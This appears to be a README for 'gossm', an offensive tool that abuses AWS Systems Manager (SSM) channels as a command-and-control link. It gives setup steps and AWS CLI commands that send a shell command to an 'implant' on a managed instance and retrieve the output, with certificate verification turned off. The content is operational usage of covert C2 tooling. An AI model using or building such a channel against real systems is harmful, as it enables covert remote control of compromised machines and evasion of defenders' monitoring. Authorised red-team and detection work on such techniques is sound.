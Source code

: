 # gossm
Abuses AWS SSM Channels for C2 communication

# Setup
export GO111MODULE=off

go get ./..

go run main.go

# send command to implant
aws --no-verify-ssl ssm send-command \
    --instance-ids "mi-0d416eb76fdc3f731" \
    --document-name "AWS-RunShellScript" \
    --comment "cat" \
    --parameters commands="cat /etc/hosts" \
    --output text --profile sliver --region us-east-1

# get command output
aws ssm get-command-invocation \                                                                                               130 ↵
    --command-id "8c4a6c6e-236e-416b-8b77-d9b3a0e73c8f" \
    --instance-id "mi-0d416eb76fdc3f731" --profile sliver --region us-east-1 --no-verify-ssl

